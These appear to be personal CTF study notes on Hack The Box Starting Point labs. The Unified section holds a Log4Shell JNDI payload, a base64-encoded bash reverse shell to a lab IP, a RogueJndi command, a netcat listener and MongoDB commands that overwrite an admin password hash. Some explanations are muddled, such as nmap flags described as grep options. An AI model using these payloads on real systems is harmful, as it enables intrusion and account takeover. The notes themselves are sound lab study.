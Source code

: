 ```yaml
---
alias: hacktehbox
type: documentation-writeup
---
```

[[CS caputetheflag]]

### Starting Point Tier 0 - Meow

[[htb_labsWriteUps_startingPoint_meow.pdf]]

when using [[NT telnet]] root can log in without a password, if enabled

### Starting Point Tier 0 - Fawn

[[htb_labsWriteUps_startingPoint_fawn.pdf]]

[[NT FTP]] when not correctly secured can have log in with "anonymous"

`sudo apt install smbclient`

### Starting Point Tier 0 - Dancing

[[htb_labsWriteUps_startingPoint_dancing.pdf]]

[[NT SMB]] && [[IT NETBios]] are often used together so that is why they will show up on the [[,nmap]] port scan together

![[Pasted image 20240912202001.png]]

### Starting Point : Tier 0 - Redeemer

[[htb_labsWriteUps_startingPoint_redeemer.pdf]]


### Starting Point : Tier 1 - Appointment

[[htb_labsWriteUps_startingPoint_appointment.pdf]]

[[IT SQL Injection]]
[[,apache]]
[[NT HTTP]]

apache version 2.4.38 --> [vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)


### Starting Point: Tier 3 - Unified

[[htb-machines-startingpoint3-unified.pdf]]

exploits: [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) 

used tools

[[,burpsuite]]
[[,nmap]]
[[,maven]]
[[LX tcpdump|tcpdump]]

technologies mentioned

[[PR Log4J]]
[[IT Unifi]]
[[IT JNDI]]
[[IT MongoDB]]
[[NT LDAP]]


|                                                                                                                                                                                         |                                                                                                                                                                                                                                               |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `nmap -sC - sV -v {target-ip}`                                                                                                                                                          | -sC: Performs a script scan using the default set of scripts. It is equivalent to --<br>script=default.<br>-sV: Version detection<br>-v: Increases the verbosity level, causing Nmap to print more information about the<br>scan in progress. |
| `${jndi:ldap://{Tun0 IP Address}/o=tomcat}`                                                                                                                                             |                                                                                                                                                                                                                                               |
| `echo 'bash -c bash -i >&/dev/tcp/10.211.55.11/4444 0>&1' \| base64`                                                                                                                    | encode a command in base64                                                                                                                                                                                                                    |
| `java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuODcvNDQ0NCAwPiYxCg==} \| {base64,-d}\|{bash,-i}" --hostname "10.10.15.87"` | command to start LDAP server                                                                                                                                                                                                                  |
| `script -qc /bin/bash /dev/null`                                                                                                                                                        | get a bash shell in terminal                                                                                                                                                                                                                  |
| `nc -lvp <port>`                                                                                                                                                                        | use netcat to listen on a port for [[CS reverse shell]]                                                                                                                                                                                       |
| `mkpasswd -m sha-512 Password1234`                                                                                                                                                      | hash a password with sha-512 encryption                                                                                                                                                                                                       |
| `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`                                                                                                                   | show all records in database ace                                                                                                                                                                                                              |
| `mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'`                                           | update the admin password with the generated hash                                                                                                                                                                                             |

[[IT JNDI]] = [Java Naming and Directory Interface](http://www.oracle.com/technetwork/java/index-jsp-137536.html).

DNS canary tokens = trigger an alert every time a [[NT DNS|DNS]] resolution for a certain domain is requested [link](https://docs.canarytokens.org/guide/dns-token.html#creating-a-dns-canarytoken) 

It allows the user to display TCP/IP and other packets being
transmitted or received over a network to which the computer is attached.

the idea of this lab is to exploit a java logging library, insert malicious code into the logging so it can interact with the OS on which it is running

in this case we use the rogueJNDI github repo that is used to response with a malicious response when a request is asked

### Starting Point: Tier 3 - Included

technology used:
[[NT TFTP|TFTP]]
[[,apache|apache httpd]]

exploit/vulernability:
[[CS Local File Infusion]]

commands used:

| command        | info                                                                                               |
| -------------- | -------------------------------------------------------------------------------------------------- |
| `nmap -sV -Sc` | -C  -- specify lines of context<br>-s  -- suppress messages about unreadable or non-existent files |
|                |                                                                                                    |
`http://{target_IP}/?file=`

structure of the URL shows that a file is loaded to show the webpage in [[PR PHP]]